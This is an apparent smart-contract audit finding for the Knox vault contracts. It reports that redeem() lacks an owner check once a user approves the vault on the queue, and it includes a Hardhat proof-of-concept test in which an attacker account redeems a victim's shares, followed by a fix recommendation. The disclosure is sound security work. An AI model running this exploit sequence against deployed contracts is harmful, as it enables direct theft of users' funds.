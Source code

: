 CRYP70

high

# Users are left exposed after approving the vault address for vault shares redemption

## Summary
There exists a `vault.redeem()` function which allows users to redeem their shares from a vault and return those shares back into the user. A user will call `Queue.setApprovalForAll(vault.address, true)` against the vault. Thinking that the vault has a friendly address, this actually exposes users to attack. 

## Vulnerability Detail
When the `vault` has been assigned to the  `queue` as `setApproveForAll`, this sets full approval rights given to an operator - in this instance the vault. If the vault is set to approved in the queue (as expected), any user can call `redeem()` on the vault and steal another user's funds. 

## Impact
The result of this is the direct theft of vault shares. In addition to this, once a user calls `setApprovalForAll()`, a user might forget to reset this back to false - as a result, an attacker could keep coming back and calling `redeem()` using the victims address as the `owner` once again because there are no checks in the vault base. I have awarded this a "high" in severity because this results in a direct theft of vault shares where the adversary benefits a great deal at the cost of the victim. In addition to this, it's fairly trivial to execute the attack on a victim. 

## Code Snippet
https://github.com/sherlock-audit/2022-09-knox/blob/main/knox-contracts/contracts/vault/VaultBase.sol#L104

## Proof of Concept
```javascript
describe("else if auction is cancelled", () => {
	time.revertToSnapshotAfterEach(async () => {
	  // lp1 deposits into queue
	  await asset
		.connect(signers.lp1)
		.approve(addresses.queue, params.deposit);
	
	  await queue.connect(signers.lp1)["deposit(uint256)"](params.deposit);
	
	  // init epoch 0 auction
	  let [startTime, endTime, epoch] = await knoxUtil.initializeAuction();
	
	  // init epoch 1
	  await time.fastForwardToFriday8AM();
	  await knoxUtil.initializeEpoch();
	
	  // auction 0 starts
	  await time.increaseTo(startTime);
	
	  // buyer1 purchases all available options
	  await asset
		.connect(signers.buyer1)
		.approve(addresses.auction, ethers.constants.MaxUint256);
	
	  await auction
		.connect(signers.buyer1)
		.addMarketOrder(
		  epoch,
		  await auction.getTotalContracts(epoch),
		  ethers.constants.MaxUint256
		);
	
	  // fast forward to 24 hours after auction ends
	  await time.increaseTo(endTime.add(86400));
	  // await auction.finalizeAuction(epoch);
	
	  // process auction 0
	  await vault.connect(signers.keeper).processAuction();
	});
	
	it("should permit redemptions after withdrawal lock has been reset", async () => {
	  // init auction 1
	  let [startTime] = await knoxUtil.initializeAuction();
	
	  await queue
		.connect(signers.lp1)
		.setApprovalForAll(addresses.vault, true);
	
	  await vault
		.connect(signers.lp1)
		.redeem(0, addresses.lp1, addresses.lp1);
	
	  // auction 1 starts
	  await time.increaseTo(startTime);
	
	  // lock should activate when auction starts
	  await expect(
		vault.connect(signers.lp1).redeem(0, addresses.lp1, addresses.lp1)
	  ).to.be.revertedWith("auction has not been processed");
	});
	
	it("should allow attacker to redeem victims vault shares", async () => { // <-------
	  const mySigners = await ethers.getSigners();
	  const eve = mySigners[10]; // A completely random unknown signer
	  const alice = signers.lp1;
	  
	  await queue
		.connect(alice)
		.setApprovalForAll(addresses.vault, true);
	
	  console.log("ALICE VAULT SHARE BALANCE BEFORE REDEEM: " + ethers.utils.formatEther(await vault.balanceOf(alice.address)));
	  console.log("EVE VAULT SHARE BALANCE BEFORE REDEEM: " + ethers.utils.formatEther(await vault.balanceOf(eve.address)));
	
	  const eveVault = await vault.connect(eve);
	  await eveVault.redeem(0, eve.address, alice.address);
	
	  console.log("ALICE VAULT SHARE BALANCE AFTER REDEEM: " + ethers.utils.formatEther(await vault.balanceOf(alice.address)));
	  console.log("EVE VAULT SHARE BALANCE AFTER REDEEM: " + ethers.utils.formatEther(await vault.balanceOf(eve.address)));
	
	  await expect(Number(ethers.utils.formatEther(await vault.balanceOf(alice.address)))).to.equal(0.0);
	  await expect(Number(ethers.utils.formatEther(await vault.balanceOf(eve.address)))).to.be.gte(10.0);
	});

});
```
The proof of concept is the `Should allow attacker to redeem victims vault shares` test where it can be appended to `should permit redemptions after withdrawal lock has been reset` in the `Vault.behaviour.ts` test file. 

## Tool used
Manual Review

## Recommendation
I recommend implementing a delegation system where users can elect another user(s) that they trust to withdraw funds on their behalf, then checking in the `VaultBase.sol` in the function of `redeem()` that the calling user is either the owner or they have been delegated to redeem as opposed to leaving victim shares totally exposed. 
